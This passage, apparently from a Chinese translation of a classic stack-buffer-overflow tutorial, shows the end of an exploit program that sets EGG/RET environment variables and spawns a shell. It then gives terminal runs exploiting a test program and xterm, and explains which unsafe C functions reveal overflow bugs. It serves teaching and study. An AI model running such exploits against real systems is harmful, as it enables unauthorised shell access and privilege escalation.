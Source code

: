 ```
    egg[eggsize - 1] = '\0';

    memcpy(egg,"EGG=",4);
    putenv(egg);
    memcpy(buff,"RET=",4);
    putenv(buff);
    system("/bin/bash");
}
```

用这个新的破解程序来试试我们的漏洞测试程序:

```
 [aleph1]$ ./exploit4 768
Using address: 0xbffffdb0
[aleph1]$ ./vulnerable $RET
$
```

成功了, 再试试xterm:

```
[aleph1]$ export DISPLAY=:0.0
[aleph1]$ ./exploit4 2148
Using address: 0xbffffdb0
[aleph1]$ /usr/X11R6/bin/xterm -fg $RET
Warning: Color name

(此处截断多行输出)

Warning: some arguments in previous message were lost
$
```

一次成功! 它显著提高了我们的成功率. 依赖于破解程序和被破解程序比较环境数据的多少, 我们推测的地址可能高也可能低于真值. 正和负的偏移量都可以试一试.

## 寻找缓冲区溢出漏洞

如前所述, 缓冲区溢出是向一个缓冲区填充超过其处理能力的信息造成的结果. 由于C语言没有任何内置的边界检查, 写入一个字符数组时, 如果超越了数组的结尾就会造成溢出. 标准C语言库提供了一些没有边界检查的字符串复制或添加函数. 包括`strcat()`, `strcpy()`, `sprintf()`, 和`vsprintf()`. 这些函数对一个`null`结尾的字符串进行操作, 并不检查溢出情况. `gets()`函数从标准输入中读取一行到缓冲区中, 直到换行或EOF. 它也不检查缓冲区溢出. `scanf()`函数族在匹配一系列非空格字符(`%s`), 或从指定集合(`%[]`)中匹配非空系列字符时, 使用字符指针指向数组, 并且没有定义最大字段宽度这个可选项, 就可能出现问题. 如果这些函数的目标地址是一个固定大小的缓冲区, 函数的另外参数是由用户以某种形式输入, 则很有可能利用缓冲区溢出来破解它.

另一种常见的编程结构是使用`while`循环从标准输入或某个文件一次将一个字符读取到缓冲区中, 直到行尾或文件结尾, 或者碰到别的什么终止符. 这种结构通常使用`getc()`, `fgetc()`, 或`getchar()`函数中的某一个. 如果在`while`循环中没有明确的溢出检查, 这种程序就很容易被破解.

由此可见, `grep(1)`是一个很好的工具命令(帮助你找到程序中可能有的漏洞). 自由操作系统及其工具的源码是可读的. 当你意识到其实很多商业操作系统工具都和自由软件有着相同的源码时,剩下的事情就简单了! :-)

## 附录 A - 不同操作系统/体系结构的shellcode

i386/Linux
